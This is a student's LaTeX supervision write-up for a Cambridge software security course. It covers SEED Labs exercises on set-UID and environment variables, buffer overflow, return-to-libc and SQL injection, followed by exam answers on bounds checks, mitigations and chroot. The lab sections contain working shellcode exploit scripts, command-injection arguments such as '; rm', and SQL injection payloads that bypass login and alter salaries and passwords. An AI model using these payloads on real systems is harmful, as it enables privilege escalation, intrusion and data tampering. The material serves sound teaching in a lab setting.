\newcommand{\svcourse}{CST Part IA: Software Engineering and Security}
\newcommand{\svnumber}{1}
\newcommand{\svvenue}{Microsoft Teams}
\newcommand{\svdate}{2022-05-11}
\newcommand{\svtime}{15:00}
\newcommand{\svuploadkey}{CBd13xmL7PC1zqhNIoLdTiYUBnxZhzRAtJxv/ytRdM1r7qIfwMsxeVwM/pPcIo8l}

\newcommand{\svrname}{Dr Sam Ainsworth}
\newcommand{\jkfside}{oneside}
\newcommand{\jkfhanded}{yes}

\newcommand{\studentname}{Harry Langford}
\newcommand{\studentemail}{hjel2@cam.ac.uk}


\documentclass[10pt,\jkfside,a4paper]{article}

% DO NOT add \usepackage commands here.  Place any custom commands
% into your SV work files.  Anything in the template directory is
% likely to be overwritten!

\usepackage{fancyhdr}

\usepackage{lastpage}       % ``n of m'' page numbering
\usepackage{lscape}         % Makes landscape easier

\usepackage{verbatim}       % Verbatim blocks
\usepackage{listings}       % Source code listings
\usepackage{graphicx}
\usepackage{float}
\usepackage{epsfig}         % Embed encapsulated postscript
\usepackage{array}          % Array environment
\usepackage{qrcode}         % QR codes
\usepackage{enumitem}       % Required by Tom Johnson's exam question header

\usepackage{hhline}         % Horizontal lines in tables
\usepackage{siunitx}        % Correct spacing of units
\usepackage{amsmath}        % American Mathematical Society
\usepackage{amssymb}        % Maths symbols
\usepackage{amsthm}         % Theorems

\usepackage{ifthen}         % Conditional processing in tex

\usepackage[top=3cm,
            bottom=3cm,
            inner=2cm,
            outer=5cm]{geometry}

% PDF metadata + URL formatting
\usepackage[
            pdfauthor={\studentname},
            pdftitle={\svcourse, SV \svnumber},
            pdfsubject={},
            pdfkeywords={9d2547b00aba40b58fa0378774f72ee6},
            pdfproducer={},
            pdfcreator={},
            hidelinks]{hyperref}

\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0.4pt}
\fancyheadoffset[LO,LE,RO,RE]{0pt}
\fancyfootoffset[LO,LE,RO,RE]{0pt}
\pagestyle{fancy}
\fancyhead{}
\fancyhead[LO,RE]{{\bfseries \studentname}\\\studentemail}
\fancyhead[RO,LE]{{\bfseries \svcourse, SV~\svnumber}\\\svdate\ \svtime, \svvenue}
\fancyfoot{}
\fancyfoot[LO,RE]{For: \svrname}
\fancyfoot[RO,LE]{\today\hspace{1cm}\thepage\ / \pageref{LastPage}}
\fancyfoot[C]{\qrcode[height=0.8cm]{\svuploadkey}}
\setlength{\headheight}{22.55pt}


\ifthenelse{\equal{\jkfside}{oneside}}{

 \ifthenelse{\equal{\jkfhanded}{left}}{
  % 1. Left-handed marker, one-sided printing or e-marking, use oneside and...
  \evensidemargin=\oddsidemargin
  \oddsidemargin=73pt
  \setlength{\marginparwidth}{111pt}
  \setlength{\marginparsep}{-\marginparsep}
  \addtolength{\marginparsep}{-\textwidth}
  \addtolength{\marginparsep}{-\marginparwidth}
 }{
  % 2. Right-handed marker, one-sided printing or e-marking, use oneside.
  \setlength{\marginparwidth}{111pt}
 }

}{
 % 3. Alternating margins, two-sided printing, use twoside.
}


\setlength{\parindent}{0em}
\addtolength{\parskip}{1ex}

% Exam question headings, labels and sensible layout (courtesy of Tom Johnson)
\setlist{parsep=\parskip, listparindent=\parindent}
\newcommand{\examhead}[3]{\section{#1 Paper #2 Question #3}}
\newenvironment{examquestion}[3]{
\examhead{#1}{#2}{#3}\setlist[enumerate, 1]{label=(\alph*)}\setlist[enumerate, 2]{label=(\roman*)}
\marginpar{\href{https://www.cl.cam.ac.uk/teaching/exams/pastpapers/y#1p#2q#3.pdf}{\qrcode{https://www.cl.cam.ac.uk/teaching/exams/pastpapers/y#1p#2q#3.pdf}}}
\marginpar{\footnotesize \href{https://www.cl.cam.ac.uk/teaching/exams/pastpapers/y#1p#2q#3.pdf}{https://www.cl.cam.ac.uk/\\teaching/exams/pastpapers/\\y#1p#2q#3.pdf}}
}{}


\usepackage{pythonhighlight}
\usepackage{float}
\usepackage{titlesec}
\usepackage{tikz}
\usepackage{graphicx}
\newcommand*\circled[1]{\tikz[baseline=(char.base)]{
            \node[shape=circle,draw,inner sep=0.2pt] (char) {#1};}}

\newcommand\setuid{\texttt{set-UID}}

\begin{document}

\part{SEED Labs}

\section{Environment Variables and \texttt{set-UID}}

\subsection{Task 1: Manipulating Environment Variables}

\texttt{env} printed the environment variables as specified.
\texttt{export} correctly set the environment variables and \texttt{unset}
correctly deleted the environment variables. I did notice that changes to
environment variables did not affect those seen by \texttt{sudo} -- or that
of the root shell without a clean environment (opened by \texttt{sudo su}).

\subsection{Task 2: Passing Environment Variables from Parent Process to Child Process}

I compiled and ran \texttt{myprinvenv.c} and noticed that the child process
shared the same environment as the parent process. I tested this by creating
a new environment variable using \texttt{export ZZZ=69} and observed it in
both the parent and child processes.

I then tested the output by piping it into two different files using
\texttt{./mychildenv > child.txt} and \texttt{./myparentenv > parent.txt}
and comparing the resulting files with \texttt{diff}. The environment
variables were the same -- the only difference was the name of the files --
which arose because I compiled the two different versions into different
named executables. When I retried the experiment with both files having the
same name, this vanished.

\subsection{Task 3: Environment Variables and \texttt{execve()}}

When I ran the original program, it did not output anything. I conclude that
the program \texttt{/usr/bin/env} did not have access to the environment
variables.

After I changed line \circled{1}, the correct environment variables were
printed. I conclude that processes started via \texttt{execve()} only see
the environment variables they are explicitly passed.

\subsection{Task 4: Environment Variables and \texttt{system()}}

I compiled the program as specified and observed that when called with
\texttt{system()}, \texttt{/usr/bin/env} saw all the system variables from
the \textit{user who owns the program which invoked system}. I tested this 
by running \texttt{mysystemenv.out} twice; once when it was owned by seed 
and once when it was owned by root.

\subsection{Task 5: }

I did wonder whether there was any reason we were asked to make an
executable file writable by root. It would seem pointless. I noticed that
\texttt{PATH} and \texttt{LD\_LIBRARY\_PATH} environment variables were
unaffected by the changes. However, \texttt{ANY\_NAME} was affected.

I conclude that there are several ``important'' environment variables which
users cannot modify for \texttt{set-UID} programs -- however, many environment
variables can be changed.

\subsection{Task 6: the PATH Environment Variable and \texttt{Set-UID} Programs}

I compiled the program and compiled a C program into an executable
named \texttt{ls} and stored in \texttt{/home/seed} which announced it was
being ran and announced what user it was being ran as. The source code is
below:
\begin{lstlisting}[language=C]
#include <stdio.h>
#include <stdlib.h>

int main(void){
    printf("Running malicious!\n");
    system("whoami");
}
\end{lstlisting}

The program ran the malicious program -- but it ran it as seed! I noticed
this was because I had set \texttt{ls} as a \texttt{set-UID} program!
However, since its owner was seed, this meant it was
\textbf{always} running as seed! Once I removed the \texttt{set-UID} bit,
running \texttt{insecure.out} as seed would call the fake \texttt{ls} as
root, resulting a successful privilege escalation attack!

Since \texttt{insecure.out} is a \setuid program, it is run with root
privileges. \texttt{system()} passes privileges on to any programs it calls.
So when our proxy \texttt{ls} is called, it inherits root privileges.

\subsection{Task 7: the \texttt{LD\_PRELOAD} Environment Variable and \setuid Programs}

I compiled the program as described and observed the following:

\newcommand{\sleep}{\texttt{sleep}}

\begin{itemize}

\item With \texttt{myprog.out} as a regular program, ran from a normal user
(seed), the proxy \sleep was called.

\item With \texttt{myprog.out} as a \setuid root program, ran from a normal
user (seed), the correct \sleep was called.

\item With \texttt{myprog.out} as a \setuid root program, ran from root with
the proxy \sleep placed into a root environment variable, the proxy \sleep
was called.

\item With \texttt{myprog.out} a \setuid user1 program and the environment
variable exported, the proxy \sleep was \textbf{not} called.

\end{itemize}

\subsection{Task 8: Invoking External Programs using \texttt{system()} versus \texttt{execve()}}

We can easily compromise the security of the system. For example, Bob can
run \texttt{./catall.out "tmp.txt; nano important.txt"}. This \texttt{cat}s
the contents of \texttt{tmp.txt} then executes \texttt{nano important.txt}.
Bob could also run \texttt{./catall.out "tmp.txt; rm important.txt"} -- which
would delete \texttt{important.txt}.

The exploit did not work with \texttt{execve()}. \texttt{execve()}
interpreted the remainder of the argument as a single file and threw and
error saying that it was unable to find that file.

\section{Buffer Overflow Attack}

\setcounter{subsection}{2}

\subsection{Task 3: Launching Attack on 32-bit Program}

I was able to launch a root shell through the vulnerable program. The code I
used to generate the badfile is below:
\begin{python}
#!/usr/bin/python3
import sys

shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################

start = len(content) - len(shellcode)
content[start:start + len(shellcode)] = shellcode

ret    = 0xffffca18 + 200
offset = 112

L = 4
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')

##################################################################

with open('badfile', 'wb') as f:
  f.write(content)
\end{python}

Since we were compiling in 32-bit code, I noticed that we should use the
32-bit shellcode. Next, I used the debugger to determine the distance
between the base pointer \texttt{ebp} and the start of the buffer which we would
overflow. This was 108 bytes. \texttt{ebp} points 4 bytes below the return
address. So I set the badfile to contain the malicious return address at
offset 112. I realised that all data above the arguments to \texttt{bof}
would be deallocated when we returned. So the shellcode should be placed
below the arguments. To maximise the size of the NOP sled, I placed the
shellcode at the end of the badfile.

To establish where to jump, I used the gdb to determine the address of the
base pointer \texttt{ebp}. I then added an offset to this (to account for
what was pushed by gdb) and the exploit worked with an offset of 200.

\begin{figure}[H]
\centering

\includegraphics[width=0.6\textwidth]{bufferoverflow}
\caption{Buffer overflow attack yielding a root shell}
\end{figure}

\subsection{Launching Attack without Knowing Buffer Size}

I added a for-loop to  into \texttt{exploit.py} and it worked first try. I
used sprayed the return address over all possible locations -- 25 consecutive
machine words. Whatever size the buffer, the true return address would be
overwritten with our proxy return address. Since my original return address
was before the stack frame, that address did not need changing.

\begin{python}
#!/usr/bin/python3
import sys

shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

content = bytearray(0x90 for i in range(517))

##################################################################

start = len(content) - len(shellcode) # Change this number
content[start:start + len(shellcode)] = shellcode

ret    = 0xffffca18 + 200 # Change this number
offset = 112              # Change this number

L = 4
for i in range(offset, offset + 100, 4):
  content[i:i + L] = (ret).to_bytes(L,byteorder='little')

##################################################################

with open('badfile', 'wb') as f:
  f.write(content)
\end{python}

\section{Return-to-Libc Attack}

\subsection{Task 1: Finding the Address of \texttt{libc} Functions}

I ran the debugger as specified and successfully found the address of the
libc functions -- \texttt{system} was stored at \texttt{0xf7e12420} and
\texttt{exit} was stored at \texttt{0xf7e04f80}.

\subsection{Task 2: Putting the shell string in memory}

I wrote the following program and named it \texttt{rellib.c}. I then
compiled it using the following command
\texttt{gcc -m32 -z noexecstack -fno-stack-protector -o rellib rellib.c} to
get the address of the environment variable in a (32-bit) C program.

Notice that this file had a name of the same length since the length of the
name of the file can affect the position of environment variables in memory.

\begin{lstlisting}[language=C]
#include <stdio.h>

void main(){
	char* shell = getenv("MYSHELL");
	if (shell)
		printf("%x\n", (unsigned int) shell);
}
\end{lstlisting}

This printed the address \texttt{0xffffd2e0}.

\subsection{Task 3: Launching the Attack}

I used the values from the earlier sections. In the debugger, I noticed that
the distance between the start of the buffer and the base pointer was 24
bytes. I know that the return address is stored one word (4 bytes) above the
base pointer, with its return address one word above that and the arguments
one above that.

The final exploit.py program was as follows:
\begin{python}
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 36
sh_addr = 0xffffd2e0       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 28
system_addr = 0xf7e12420   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 32
exit_addr = 0xf7e04f80     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
\end{python}

Here is a demonstration of the final attack working:

\begin{figure}[H]
\centering

\includegraphics[width=0.6\textwidth]{returnlibc}
\end{figure}

\section{Web SQL Injection}

\subsection{Task 1: Get Familiar with SQL Statements}

This was trivial:

\begin{figure}[H]
\centering

\includegraphics[width=0.5\textwidth]{sql1}
\end{figure}

\subsection{Task 2: SQL Injection Attack on SELECT Statement}

\subsubsection{SQL Injection Attack from webpage}

I input the username \texttt{admin';\#} and was granted access to the
admin database with any password.

\subsubsection{SQL Injection Attack from command line}

I formatted the query into command line and
\texttt{curl "www.seed-server.com/unsafe\_home.php?username=admin';
\%23\&Password=0"}
worked.

\subsubsection{Append a new SQL statement}

I was unable to discover a way to execute multiple SQL statements via SQL
injection. I discovered this was because the php API used for executing SQL
does not allow multiple queries to be executed (with the explicit intent of
stopping SQL injection).

\subsection{Task 3: SQL Injection Attack on UPDATE Statement}

\subsubsection{Modify your own salary}

I used the query \texttt{', salary=99999 where Name='Alice'; \#} to do this.

\subsubsection{Modify other peoples salary}

I used the query \texttt{', salary=0 where Name='Boby'; \#} to do this.

\subsubsection{Modify other peoples password}

I used an online SHA1 hash function to generate the hash for my desired
password and then used the query \texttt{', Password='b1b...21e' where Name='Boby'; \#}.
Another method which would work for an arbitrary (unknown) hash function
would be to set Bobys password to be equal to an existing users password.
However, this would be more traceable.

\subsubsection{Countermeasure -- Prepared Statement}

I used the code below
\begin{lstlisting}[language=php, showstringspaces=false]
$stmt = $conn->prepare("select id, name, eid, salary, ssn
                        from credential
                        where name = ? and Password = ?");

$stmt->bind_param("ss", $input_uname, $hashed_pwd);
$stmt->execute();
$stmt->bind_result($id, $name, $eid, $salary, $ssn);
$stmt->fetch();
\end{lstlisting}

The database didn't output any information when fed attempted SQL injections.
However, when I tested it with legitimate users (Alice using password
seedalice), the database output the correct data.

\part{Exam Questions}

\begin{examquestion}{2020}{4}{6}

\begin{enumerate}

\item During a security review, you encounter the following C function,
which may be called by untrusted code:

\begin{lstlisting}[language=C]
int table[800];

int insert_in_table(int val, int pos) {
    if (pos > sizeof(table) / sizeof(int)) return -1;
    table[pos] = val;
    return 0;
}
\end{lstlisting}

Identify potential vulnerabilities and provide a fixed version.

There are two buffer overflow vulnerabilities in the code.

\begin{itemize}

\item Negative positions are legal.

\item Positions one off the end of the table are legal.

\end{itemize}

\begin{lstlisting}[language=C]
int table[800];

int insert_in_table(int val, int pos) {
    if ((pos < 0) || (sizeof(table) / sizeof(int) > pos)) return -1;
    table[pos] = val;
    return 0;
}
\end{lstlisting}

\setcounter{enumi}{2}

\item Suggest and briefly explain three countermeasures used by a typical
Linux distribution to mitigate the risk of stack-overflow vulnerabilities
in included software.

\begin{itemize}

\item Address Space Layout Randomisation

The exact virtual addresses which functions and statics are loaded into is
randomised at runtime. This makes it harder to guess pointers that point
to specific objects.

\item Stack Canary

This is a random number which is inserted into the stack below the return
address. If the return address is overwritten by a buffer overflow, then the
Stack Canary will also be overwritten. Since the Stack Canary is random
the attacker cannot overwrite the return address. The Stack Canary must be
decided at runtime and must be sufficiently random as to be unpredictable. A
copy of the Stack Canary is stored on a shadow stack.

\item Non-Executable Stack

The stack is marked as non-executable -- code on the stack will not be
executed. This prevents executing code directly input from users.

\end{itemize}

\end{enumerate}

\end{examquestion}

\begin{examquestion}{2020}{4}{7}

\begin{enumerate}

\item

\begin{enumerate}

\item What effect does the Unix/Linux/macOS system call \texttt{chroot} have (or
the GNU/Linux command-line tool of the same name)?

\texttt{chroot} changes the effective root directory of a program. This
creates a ``\texttt{chroot} jail'' and prevents the program from accessing
any files outside of its new root directory. This can either be volunteered
by a program via a system call or forced onto a program via its owner or
root.

\item What kinds of resource can \texttt{chroot} restrict access to? How
can the developer of a program $P$ use \texttt{chroot}? How can the user of
a program $P$ use \texttt{chroot}?

\texttt{chroot} limits the set of files / directories which a file can view
to files which are children of its new root.

The developer of a program $P$ could use \texttt{chroot} for security
purposes -- the program could open all files it requires from outside the
jail, then enter the jail. This would limit the damage which could be caused
by any vulnerabilities in the rest of the program.

A user may use \texttt{chroot} for compatibility purposes -- if a tool was
designed and built for an older version of an operating system, it may be
inconsistent with the current version. This can be solved by placing it in a
\texttt{chroot} jail and copying the relevant parts of the operating system
into it. This has far less overhead than running the program on a virtual
machine.

\item Why would a developer or user of a program want to do this? Give a
concrete example.

Developers may want to do this to limit the impact of any bugs in their
programs.

Consider a developer writing a network app. On startup, the program loads
system configuration information such that it conforms to the standards of the
computer and the network. From this point onwards, the app only accesses
its own private data. To reduce the risk of serious vulnerabilities, the
developer could put the app in a \texttt{chroot} jail after viewing the
system configuration information. This would prevent any malicious or buggy
code from damaging anything other than the applications own data.

An example of a program that does this is NTP -- it doesn't \textit{need} to
access much of the filesystem after startup.

\item Name two other kinds of resource on a Unix system for which access is
not affected by \texttt{chroot}.

Network bandwidth usage, disk space usage.

Files in \texttt{chroot} jails can send as much data over the network as
they wish; and create as many files of any size they wish.

\end{enumerate}

\item User jane types the following three commands into her Linux shell:

\begin{lstlisting}[language=bash]
$ id
uid=1002(jane) gid=1002(jane) groups=20(dialout),513(staff)
$ ls -l ptool
-rwsr-xr-x 1 ptusr ptgrp 59640 Mar 22 2020 ptool
$ ./ptool
\end{lstlisting}

\begin{enumerate}

\item State the various user and group identities associated with the started
\texttt{ptool} process, by copying and completing the following table:

\begin{table}[H]
\centering
\begin{tabular}{r|c|c|c}
& real & effective & saved \\
\hline
user ID & jane & ptusr & ptusr \\
\hline
group ID & jane & ptgrp & ptgrp \\
\hline
supplementary groups & dialout, staff & - & - \\
\end{tabular}
\end{table}

\item Which values is the \texttt{ptool} process permitted to provide in the
\texttt{setuid()} system call?

\texttt{ptool} is permitted provide either \texttt{jane} or \texttt{ptusr}
to the \texttt{setuid()} system call.

\end{enumerate}

\end{enumerate}

\end{examquestion}

\end{document}
